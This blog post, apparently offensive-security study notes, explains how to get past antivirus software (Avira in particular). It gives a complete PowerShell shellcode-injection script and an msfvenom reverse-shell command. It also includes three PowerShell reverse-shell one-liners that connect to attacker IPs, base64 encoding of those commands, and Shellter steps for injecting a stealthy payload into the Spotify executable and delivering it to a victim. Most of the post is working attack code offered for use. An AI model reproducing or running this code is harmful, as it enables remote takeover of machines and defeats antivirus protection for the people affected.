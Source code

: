 ```yaml
---
layout: post
title: Evading AV
titledate: 09/09/23
tags: ["infosec","offsec", "exploit", "evasion", "shell", "powershell", "shellter"]
---
```


#### Evading Avira

One technique is to use variable obfuscation or randomization

AVs generally match text files pretty closely so we can try to randomize variables when possible

The following is a known powershell memory injection script

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script imports VirtualAlloc and CreateThread from kernel32 and then memset from msvcrt

This script allows us to allocate memory and execute code in a newly created thread for the current powershell process

we can use msfvenom to create our shellcode payload

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f powershell -v sc

to avoid AV detection we can try to randomize the variable names

#### Further Evading

If this script is still detected we can try to use a powershell one liner reverse shell 

### $ $client = New-Object System.Net.Sockets.TCPClient("192.168.45.154",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


And then we can encode it with this script https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py 

This script takes a powershell command and base64 encodes it to be passed as a parameter to powershell

#### Automate Evasions with Shellter

shellter is a shellcode injection tool

we can run the tool in Auto or Manual mode

enable stealth mode to continue normal application execution after the exploit code is triggered

in the following example we inject a payload in the spotify executable

![_config.yml]({{ site.baseurl }}/images/exploitation/shellter.png)

now we can send our payload to our windows system

i do this with by hosting a python upload download server

    $ python3 -m uploadserver

### NOTE: if receiving a connect from the victim server but shell terminates with netcat, setup meterpreter listener or try stageless payload


